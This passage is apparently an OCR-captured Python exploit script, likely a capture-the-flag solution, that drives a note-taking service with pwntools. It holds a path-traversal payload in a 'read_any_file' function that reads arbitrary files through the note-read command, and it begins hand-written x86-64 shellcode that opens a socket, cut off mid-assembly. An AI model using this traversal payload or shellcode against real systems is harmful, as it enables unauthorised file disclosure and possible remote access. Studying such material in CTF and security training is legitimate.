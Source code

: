 ```python
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Username: ', b'sbk' + random.encode())
        r.sendlineafter(b'Password: ', b'sbk' + random.encode())
        if b'Success' in r.recvline():
            log.success(f'Command {cmd_dic[cmd]} Successful')
        else:
            log.error('Command Login Failed!!!')
    
    if cmd == 3:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Note Name: ', note_name)
        r.sendlineafter(b'Content Length: ', content_len)
        r.sendlineafter(b'Content: ', content)
        if b'created' in r.recvline():
            log.success(f'Command {cmd_dic[cmd]} Successful')
        else:
            log.error(f'Command {cmd_dic[cmd]} Failed!!!')
    
    if cmd == 4:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Note Name: ', note_name)
        r.sendlineafter(b'Offset: ', str(offset).encode())
        r.sendlineafter(b'Content Length: ', str(len(content)).encode())
        r.sendlineafter(b'Content: ', content)
        log.success('Done')
    
    if cmd == 5:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Note Name: ', note_name)
        r.sendlineafter(b'Offset: ', offset)
        res = r.recv(128).decode().strip()
        return res

def read_any_file(file_name):
    payload = b'../../../../../../' + b'/' * (89 - len(file_name)) + file_name
    offset = 0
    res = ''
    while(True):
        ret = dealing_cmd(r, 5, payload, offset=str(offset).encode())
        # print(ret, len(ret))
        if ret != 'Read note failed.' and ret != "Couldn't open the file.":
            res += ret
            offset += 128
        else:
            log.success(res)
            break
    return res

def ugly_shellcode():
    # int fd = socket(AF_INET, SOCK_STREAM, 0);
    socket = """
        xor rax, rax
        mov al, 0x29

        xor rdi, rdi
        mov dil, 0x2

        xor rsi, rsi
        mov sil, 0x1

        xor rdx, rdx

        syscall
```